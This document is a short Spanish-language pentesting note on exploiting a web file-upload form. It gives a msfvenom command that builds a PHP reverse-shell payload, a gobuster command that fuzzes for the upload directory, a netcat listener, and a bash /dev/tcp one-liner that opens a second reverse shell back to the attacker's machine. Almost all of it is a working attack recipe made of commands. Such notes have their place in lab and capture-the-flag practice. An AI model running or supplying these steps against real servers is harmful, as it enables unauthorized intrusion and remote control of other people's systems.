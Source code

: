 
Cuandouna web nos permite subir archivos hay que explotarlo bien, porque seguramente se pueda hacer una intrusión por ahí.
La forma de atacar será subir un archivo con un codigo malicioso que se puede crear con msfvenom



1 con Msfvenom generamos un payuload:
```sh fold:"Generar payload con msfvenom"
msfvenom -p php/reverse_php Lhost={IPlocal} LPORT={Local port} -f raw > pwned.php
```



Este archivo lo subimos con el formuulario de la web encontrado

Ahora tenemos que saber donde se ha subido para intentar ejecutarlo y ejecutar el codigo malicioso.

por tanto hacemos  Fuzzing con gobuster


```sh fold:"Buscar el fichero subido pwned.php con gobuster"
gobuster dir -u http://{ip} -w /usr/share/wordlist/dirbuster/directory-listls-lowercase-2.3-medium.txt
```


Si encontramos la carpeta /uploads o carpeta similares entramos
Una vez localizado nuestro fichero pwned.php solo nos falta

```sh fold:"Poner Netcat a la escucha en el puerto seleccionado en el fichero creado con msfvenom"
nc -nlvp {Local port}
```

Despues hacemos click sobre nuestro fichero para obtener la conexion en netcat


**Nota:** El payload con msfvenom funciona mal y al cabo del rato perdemos la conexion, por tatno lo primero que hacemos cuando hemos establacido conexion será abrir un nuevo terminal
con netcat nos ponemos a la escucha en otro puerto diferente al que hemos elegido previamente
y desde la conexion anterior nos enbviamos la reverse_shell:


```sh fold:"Enviar una conexion a nuestra maquina por el nuevo puerto"
bash -c "sh -i >&  /dev/tcp/{ip maquina local}/{nuevopuerto} 0>&1"
```










